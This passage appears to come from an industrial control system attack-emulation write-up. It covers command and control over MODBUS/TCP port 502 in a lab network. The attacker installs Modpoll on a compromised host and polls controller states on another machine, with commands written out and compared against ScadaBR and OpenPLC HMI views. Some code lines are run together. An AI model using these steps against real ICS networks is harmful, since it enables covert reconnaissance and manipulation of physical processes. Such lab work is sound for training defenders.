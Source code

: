 # Command and Control

#### **Blending in with Normal Network Activity Using MODBUS/TCP (Port 502)**

The attacker uses a commonly used port (MODBUS/TCP:502) to bypass firewalls and detection systems, blending in with normal network activity. (MODBUS or HTTP(S), OPC, RDP, telnet,...) \[T0885 - <https://attack.mitre.org/techniques/T0885/> ]

The attacker uses the **MODBUS/TCP** protocol, which typically operates on port **502**, to establish Command and Control between the compromised machines. By utilizing this widely-used industrial protocol, the attacker avoids raising suspicion, as MODBUS traffic is considered normal within many industrial control system (ICS) environments.

1. **Installing Modpoll on Machine M2 (Attack Machine):**

- The attacker installs the **Modpoll** tool on the compromised M2 to interact with MODBUS devices in the network.

- Modpoll is a command-line tool for polling MODBUS data, allowing the attacker to **read and write** data from MODBUS registers on the target machines.

```
# step 1 install modpoll in M2

wget https\://www\.modbusdriver.com/downloads/modpoll.tgz_tar xzf modpoll.tgz

export PATH=modpoll/x86\_64-linux-gnu:$PATH

```

****![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXe68s9l88LiLzW58oAIbExkM1PYLvscOAAqFAvHHp6tOLt51MaLQ8FPIz7tMdvKEHOW4l0nL_VB9IUBwj8AA8V_T4d31CiCoXBRMqdYOjUH6Dbb-vHvfuF0mTgx-oDDinR1c7jWYZGhh5tQT27915pN327E?key=ZVE4yllmhIbKOidz4k1V_g)****

**Img 12:** Network scanning in M2, discovery of M3 network and 502 MODBUS TCP port.

2. **MODBUS Polling on M3 (System Controller) via MODBUS/TCP:**

- The attacker executes **Modpoll** to query the state of the system controllers on machine M3 using the MODBUS protocol over TCP (Port 502):

```
# step 1 checking machine/system controller statesmodpoll -m tcp -r 1 -c 4 -t 0 192.168.52.6 # the -c is the number of outputs you want to get, the response of this command can take some seconds to appear |

```


![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdulCra-JfynzhNl3cQL84b5hF-KSM-R9Rpvw0YXXjbZuVnY0Np9DSqu0n3gC8_t2p-sqYn3tMN04iHupeVMoOjh9XNQGdUbqBrcqd6oQCJJQwKG3jJoZF3lP5YbpphLmiewSJlu9VdX0I4iT-2GBEla9-x?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 13:** Response of MODBUS TCP port, controller states of systems in M3.

3. **Comparing Data with HMI Systems (ScadaBR and OpenPLC):**

- From the web interfaces of **ScadaBR** (http\://10.208.89.15:9090/ScadaBR/) and **OpenPLC** (http\://10.208.89.15:8080/monitoring), the attacker can see that they have the same information that authorized users would have about the machines' statuses.

- The attacker essentially mirrors what operators would see on their HMI (Human-Machine Interface), giving them full visibility into the operational state of the industrial control systems.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeLC8bPw3IoFnITDBK4Sn8iGF9yl1hOpoJymoFGglkc9cOz4h-MVLNfP4t2ucEE9GGSbH46LVc05i-2Jg_pMnI5B2Ud9WWvf1HRrbDj1ikRuQNAi8laqj1C9LUqMEDugh_zdkr_mUZtkWKhbYp5slwMt1g?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 14:** OpenPLC (right) and ScadaBR HMI (left).
